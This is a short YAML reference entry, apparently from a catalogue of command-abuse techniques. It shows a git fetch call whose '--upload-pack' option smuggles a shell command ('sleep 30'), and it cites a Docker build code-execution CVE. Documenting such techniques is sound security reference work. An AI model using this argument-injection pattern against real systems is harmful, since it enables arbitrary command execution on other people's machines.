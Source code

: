 ```yaml
---
functions:
  command:
    - code: |-
        git fetch origin '--upload-pack=sleep 30; git@g.com/a/b'
      references:
        - title: "CVE-2019-13139 - Docker build code execution"
          url: https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/
---
```

